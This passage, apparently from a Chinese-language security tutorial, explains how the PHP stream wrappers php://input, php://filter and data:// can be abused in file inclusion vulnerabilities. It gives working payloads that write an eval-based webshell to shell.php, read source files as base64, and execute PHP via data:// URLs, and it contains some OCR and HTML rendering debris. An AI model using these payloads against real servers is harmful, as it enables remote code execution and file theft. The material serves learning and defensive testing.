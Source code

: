 
> 
<h3>2.2、php:// 协议</h3>
<h4>前提：</h4>
allow_url_fopen:off/on  
allow_url_include :开on的有php://input php://stdin php://memory php://temp

<hr/>
<table border="1" cellpadding="1" cellspacing="1"><tbody>|协议|介绍
|php://input| 1、可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分 2、在enctype="multipart/form-data" 的时候php://input 是无效的 
|php://output|只写的数据流，允许以 print 和 echo 一样的方式写入到输出缓冲区
|php://fd|(&gt;=5.3.6)允许直接访问指定的文件描述符
|php://memory php://temp| 1、(&gt;=5.1.0)一个类似文件包装器的数据流，允许读写临时数据 2、两者的唯一区别是 php://memory 总是把数据储存在内存中，而 php://temp 会在内存量达到预定义的限制后（默认是 2MB）存入临时文件中。临时文件位置的决定和 sys_get_temp_dir() 的方式一致。 
|php://filter| 1、(&gt;=5.0.0)一种元封装器，设计用于数据流打开时的筛选过滤应用 2、对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、file() 和 file_get_contents()，在数据流内容读取之前没有机会应用其他过滤器。 
</tbody></table>
<hr/>
<h4>php://input</h4>
allow_url_fopen=on 和 allow_url_include=on
POST提交PHP代码，造成任意代码执行，如写入文件（木马）
php://input + [POST DATA]
eg：
URL中：……?file=http://input
POST中：&lt;?PHP fputs(fopen('shell.php','w'),'&lt;?php @eval($_POST['123'])?&gt;');?&gt;
<hr/>
<h4>php://filter</h4>
读取文件源码
php://filter可获取指定文件源码，如果再利用包含函数漏洞，php://filter流会被当作php文件执行，一般对其进行编码，使其不被执行，获取到编码后解码，从而达到任意文件的读取
……?file=php://filter/read=convert.base64-encode/resource=文件路径


---


#### php://input

> 
<h3>2.3、data://</h3>
<h4>前提：</h4>
allow_url_fopen:on
allow_url_include :on
<hr/>
<h4>简介：</h4>
数据流封装器，以传递相应格式的数据
可以用来执行PHP代码
<hr/>
<h4>用法：</h4>
data://text/plain，内容
data://text/plain;base64,base64加密内容
<hr/>
<h4>示例：</h4>
……?file=data://text/plain,&lt;?php%20phpinfo();?&gt;
……?file=data://text/plain;base64,base64加密后内容
